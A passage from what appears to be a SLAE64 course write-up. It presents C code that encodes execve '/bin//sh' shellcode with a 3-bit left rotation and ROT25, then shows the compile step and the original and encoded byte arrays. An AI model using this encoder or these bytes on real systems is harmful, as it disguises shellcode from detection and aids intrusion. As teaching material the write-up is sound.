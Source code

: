 ```c
	for (int i = 0; i < strlen(code); i++) {
		printf("0x%02x,", code[i]);
	}

	printf("\n\nShifted Left 3 bits ShellCode:\n");

	// 3 bits left Rotation
	for (int i = 0; i< strlen(code); i++) {
		code[i] = (code[i] << SHIFTS) | ( code[i] >> (BITS_TO_ROTATE - SHIFTS));
		printf("0x%02x,", code[i]);
	}

	printf("\n\nROT25 ShellCode:\n");

	// ROTX the ShellCode
	unsigned char rot = 25;
	unsigned char max_rot = 256 - rot;

	for (int i = 0; i < strlen(code); i++) {
		if (code[i] < max_rot) {
			code[i] = code[i] + rot;
			printf("0x%02x,",code[i]);
		} else {
			code[i] = (code[i] + rot) - 256;
			printf("0x%02x,",code[i]);
		}
	}
	printf("\n");
}	
```
### Encoder: Compile and Run
---
Time to compile the source:
```bash
SLAE64> gcc Encoder.c -o Encoder
```
And execute it:
```bash
SLAE64> ./Encoder 

ShellCode Length: 32

Original ShellCode:
0x48,0x31,0xc0,0x50,0x48,0xbb,0x2f,0x62,0x69,0x6e,0x2f,0x2f,0x73,0x68,0x53,0x48,0x89,0xe7,0x50,0x48,0x89,0xe2,0x57,0x48,0x89,0xe6,0x48,0x83,0xc0,0x3b,0x0f,0x05,

Shifted Left 3 bits ShellCode:
0x42,0x89,0x06,0x82,0x42,0xdd,0x79,0x13,0x4b,0x73,0x79,0x79,0x9b,0x43,0x9a,0x42,0x4c,0x3f,0x82,0x42,0x4c,0x17,0xba,0x42,0x4c,0x37,0x42,0x1c,0x06,0xd9,0x78,0x28,

ROT25 ShellCode:
0x5b,0xa2,0x1f,0x9b,0x5b,0xf6,0x92,0x2c,0x64,0x8c,0x92,0x92,0xb4,0x5c,0xb3,0x5b,0x65,0x58,0x9b,0x5b,0x65,0x30,0xd3,0x5b,0x65,0x50,0x5b,0x35,0x1f,0xf2,0x91,0x41,

SLAE64> 
```
<img src="https://galminyana.github.io/img/A04_Encoder_Compile.png" width="75%" height="75%">
